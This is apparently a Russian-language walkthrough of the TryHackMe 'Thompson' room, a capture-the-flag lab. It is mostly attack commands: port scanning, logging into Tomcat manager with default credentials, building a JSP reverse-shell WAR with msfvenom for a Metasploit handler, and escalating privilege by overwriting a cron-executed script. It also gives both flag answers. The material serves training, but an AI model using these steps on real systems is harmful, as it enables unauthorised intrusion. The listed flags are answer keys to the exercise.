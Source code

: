 [>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)

# Комната [Thompson](https://tryhackme.com/r/room/bsidesgtthompson) 

Всего 1 заданиe:
## Задание 1
прочитать user.txt и root.txt

### Ответьте на вопросы ниже
пользователь.txt
```commandline
nmap -sC -sV -p- <IP> 
curl -i http://<IP>:8080/manager/html
# tomcat:s3cret
msfvenom -p java/jsp_shell_reverse_tcp lhost=<YOUR_IP> lport=4444 -f war -o shell.war
msfconole -q
use multi/handler
set lhost <IP>
run -j
sessions
sessions -i 1
id
cat /home/jack/user.txt
```
```commandline
39400c90bc683a41a8935e4719f181bf
```
корень.txt
```commandline
cat /etc/crontab
cat id.sh
printf '#!/bin/bash\ncat /root/root.txt > test.txt' > id.sh
cat test.txt
```
```commandline
d89d5391984c0450a95497153ae7ca3a
```

[>> вернуться на главную страницу](https://github.com/BEPb/tryhackme/blob/master/README.md)